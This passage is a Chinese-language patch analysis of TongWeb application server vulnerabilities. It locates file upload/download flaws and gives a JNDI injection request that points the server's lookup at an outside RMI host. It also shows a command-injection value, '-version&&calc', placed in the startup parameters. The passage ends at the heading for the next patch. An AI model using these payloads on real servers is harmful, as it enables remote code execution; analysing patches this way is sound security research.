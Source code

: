 官方补丁链接：http://www.tongtech.com/api/sys/stl/actions/download?siteId=1&channelId=103&contentId=1869&fileUrl=xnKfUxgX5AnAHragMhPos0QDqEthxvBOO0slash0kp7T3K6T0slash0pfE0add09ly0slash0OV9ullB0slash0esT9Y0secret0

补丁位置：`com.tongweb.agent.com.FileTransferUtil#sendFile/receiveFile`，根据方法名也可以推测，sendFile文件上传漏洞，receiveFile文件下载漏洞

查找receiveFile相关调用
```
com.tongweb.console.log.controller.LogShowController#downloadLog
com.tongweb.console.monitor.controller.SnapshotController#downloadSnaToMas
```
sendFile无法查询到，但是它上层是被AgentUtil.copyFile调用的，查找copyFile被调用的地方
```
com.tongweb.console.monitor.controller.SnapshotController#uploadResult
```


### 补丁4

官方补丁链接： http://www.tongtech.com/api/sys/stl/actions/download?siteId=1&channelId=103&contentId=2007&fileUrl=xnKfUxgX5AnAHragMhPosxbwroaBqZ5eGSjfToIg6dGpEVC0add0oJQMer0MdhKJ4E0add06g79kKXYFVPZoI7FTUBd1fA0equals00equals00secret0

**（1）JNDI注入**

```
http://ip:9060/console/rest/jca/nameCheck?name=rmi://ip:1099/jzr8wb
```
漏洞点位于`com.tongweb.console.jca.controller.JCAController#checkJNDIName`
```java
    @GET
    @Path("nameCheck")
    @Produces({"application/xml", "application/json"})
    public void checkJNDIName(@QueryParam("name") String name) {
        PrintWriter writer = null;
        try {
            writer = this.response.getWriter();
            writer.print(this.jcaService.checkJNDIName(name)); // checkJNDIName调用了lookup
            writer.close();
        } ...
    }
    
    public boolean checkJNDIName(String name) throws Exception {
        Object old = (new InitialContext()).lookup(name.trim());
    }
```

**（2）命令执行**

启动参数存在可执行命令，ExternalOptions，修复主要是加入```if (!twOpt.contains("`") && !twOpt.contains("%60")) ```，`twOpt`对应服务器参数。

在console的启动参数配置——服务器参数中加入`-version&&calc`，利用命令注入的方式进行攻击，一旦服务器重启，可造成命令执行。

### 补丁5
